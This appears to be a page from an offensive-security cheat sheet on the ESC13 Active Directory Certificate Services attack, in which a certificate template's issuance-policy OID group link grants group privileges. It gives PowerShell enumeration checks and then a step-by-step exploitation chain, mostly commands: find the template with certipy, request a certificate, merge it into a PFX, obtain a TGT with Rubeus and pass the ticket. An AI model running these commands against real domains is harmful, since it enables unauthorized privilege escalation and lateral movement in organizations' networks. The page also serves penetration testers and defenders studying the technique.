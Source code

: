 # Active Directory - Certificate ESC13

## ESC13 - Issuance Policy

> If a principal (user or computer) has enrollment rights on a certificate template configured with an issuance policy that has an OID group link, then this principal can enroll a certificate that allows obtaining access to the environment as a member of the group specified in the OID group link.

**Requirements**

* The principal has enrollment rights on a certificate template
* The certificate template has an issuance policy extension
* The issuance policy has an OID group link to a group
* The certificate template defines EKUs that enable client authentication

```ps1
PS C:\> $ESC13Template = Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties nTSecurityDescriptor $ESC13Template.nTSecurityDescriptor.Access | ? {$_.IdentityReference -eq "DUMPSTER\ESC13User"}
AccessControlType     : Allow

# check if there is an issuance policy in the msPKI-Certificate-Policy
PS C:\> Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties msPKI-Certificate-Policy
msPKI-Certificate-Policy : {1.3.6.1.4.1.311.21.8.4571196.1884641.3293620.10686285.12068043.134.3651508.12319448}

# check for OID group link
PS C:\> Get-ADObject "CN=12319448.2C2B96A74878E00434BEDD82A61861C5,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
msDS-OIDToGroupLink     : CN=ESC13Group,OU=Groups,OU=Tier0,DC=dumpster,DC=fire

# verify if ESC13Group is a Universal group
PS C:\> Get-ADGroup ESC13Group -Properties Members
GroupScope        : Universal
Members           : {}
```

**Exploitation**:

* Find a vulnerable template

  ```ps1
  certipy find -target dc.lab.local -dc-ip 10.10.10.10 -u "username" -p "P@ssw0rd" -stdout -vulnerable
  ```

* Request a certificate for the vulnerable template

  ```ps1
  .\Certify.exe request /ca:DC01\dumpster-DC01-CA /template:ESC13Template
  certipy req -target dc.lab.local -dc-ip 10.10.10.10 -u "username" -p "P@ssw0rd" -template <ESC13-Template> -ca <CA-NAME>
  ```

* Merge into a PFX file

  ```ps1
  certutil -MergePFX .\esc13.pem .\esc13.pfx
  ```

* Verify the presence of the "Client Authentication" and the "Policy Identifier"

  ```ps1
  certutil -Dump -v .\esc13.pfx
  ```

* Pass-The-Certificate: Ask a TGT for our user, but we are also member of the linked group and inherited their privileges

  ```ps1
  Rubeus.exe asktgt /user:ESC13User /certificate:C:\esc13.pfx /nowrap
  Rubeus.exe asktgt /user:username /certificate:username.pfx /domain:lab.local /dc:dc /nowrap
  ```

* Pass-The-Ticket: Use the ticket that grant privileges from the AD group

  ```ps1
  Rubeus.exe ptt /ticket:<ticket>
  ```

## References

* [ADCS ESC13 Abuse Technique - Jonas Bülow Knudsen - 02/15/2024](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
* [Exploitation de l’AD CS : ESC12, ESC13 et ESC14 - Guillon Bony Rémi - February, 2025](https://connect.ed-diamond.com/misc/mischs-031/exploitation-de-l-ad-cs-esc12-esc13-et-esc14)
* [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)

